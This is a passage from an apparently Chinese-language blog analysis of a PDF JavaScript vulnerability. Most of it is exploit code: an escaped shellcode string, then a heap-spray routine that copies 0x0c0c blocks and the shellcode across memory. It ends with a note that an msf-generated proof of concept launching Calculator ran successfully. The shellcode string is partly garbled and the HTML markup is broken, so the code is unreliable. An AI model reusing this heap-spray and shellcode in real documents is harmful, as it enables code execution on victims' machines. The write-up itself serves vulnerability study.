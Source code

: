 <span class="hljs-var_expand">%u2009%</span>ue844<span class="hljs-var_expand">%u9df2%</span>u62e0<span class="hljs-var_expand">%uc91e%</span>u2898<span class="hljs-var_expand">%u0c74%</span>u572e<span class="hljs-var_expand">%u0e3a%</span>u5830<span class="hljs-var_expand">%u676a%</span>ud301<span class="hljs-var_expand">%uf0e5%</span>u369e<span class="hljs-var_expand">%u0e42%</span>u1bd5<span class="hljs-var_expand">%u87e2%</span>uc9b0<span class="hljs-var_expand">%uc5b7%</span>u2442<span class="hljs-var_expand">%uf3fb%</span>ucdc0<span class="hljs-var_expand">%u0783%</span>ua7d8<span class="hljs-var_expand">%u4c86%</span>u5b5e<span class="hljs-var_expand">%uunescapefa%</span>u5b0b<span class="hljs-var_expand">%udea9%</span>u3819<span class="hljs-var_expand">%u4d2c%</span>u91c1<span class="hljs-var_expand">%uf5cb%</span>uee60' )<span class="hljs-comment">;</span>
var <span class="hljs-literal">a</span> = unescape( <span class="hljs-string">"%"</span> + <span class="hljs-string">"u"</span> + <span class="hljs-string">"0"</span> + <span class="hljs-string">"c"</span> + <span class="hljs-string">"0"</span> + <span class="hljs-string">"c"</span> + <span class="hljs-string">"%u"</span> + <span class="hljs-string">"0"</span> + <span class="hljs-string">"c"</span> + <span class="hljs-string">"0"</span> + <span class="hljs-string">"c"</span> )<span class="hljs-comment">;</span>
<span class="hljs-keyword">while</span> (<span class="hljs-literal">a</span>.length + <span class="hljs-number">20</span> + <span class="hljs-number">8</span> &lt; <span class="hljs-number">65536</span>) <span class="hljs-literal">a</span>+=<span class="hljs-literal">a</span><span class="hljs-comment">;</span>
c = <span class="hljs-literal">a</span>.substring(<span class="hljs-number">0</span>, (<span class="hljs-number">0</span>x0c0c-<span class="hljs-number">0</span>x24)/<span class="hljs-number">2</span>)<span class="hljs-comment">;</span>
c += s<span class="hljs-comment">;</span>
c += <span class="hljs-literal">a</span><span class="hljs-comment">;</span>
f = c.substring(<span class="hljs-number">0</span>, <span class="hljs-number">65536</span>/<span class="hljs-number">2</span>)<span class="hljs-comment">;</span>
<span class="hljs-keyword">while</span>(f.length &lt; <span class="hljs-number">0</span>x80000) f += f<span class="hljs-comment">;</span>
k = f.substring(<span class="hljs-number">0</span>, <span class="hljs-number">0</span>x80000 - (<span class="hljs-number">0</span>x1020-<span class="hljs-number">0</span>x08) / <span class="hljs-number">2</span>)<span class="hljs-comment">;</span>
var NwBg = new Array()<span class="hljs-comment">;</span>
for (OYV=<span class="hljs-number">0</span><span class="hljs-comment">;OYV&lt;0x1f0;OYV++) NwBg[OYV]=k+"s";</span>
&lt;/script&gt;</code></pre>
<p>因为pdf支持javascript脚本，所以利用javascript代码进行内存喷射，将shellcode重复写到内存上</p>
<h1 id="0x03-漏洞验证">0x03 漏洞验证</h1>
<p>选用的是msf生成的poc文件，主要功能是弹出计算器，下面结合该poc文件进行相关漏洞分析预测试</p>
<p><img alt="这里写图片描述" src="http://img.blog.csdn.net/20170702093146087?watermark/2/text/aHR0cDovL2Jsb2cuY3Nkbi5uZXQvcXFfMzE0ODExODc=/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70/gravity/SouthEast" title=""/></p>
<p>漏洞执行成功</p></hr></hr></hr></hr></hr></hr></div>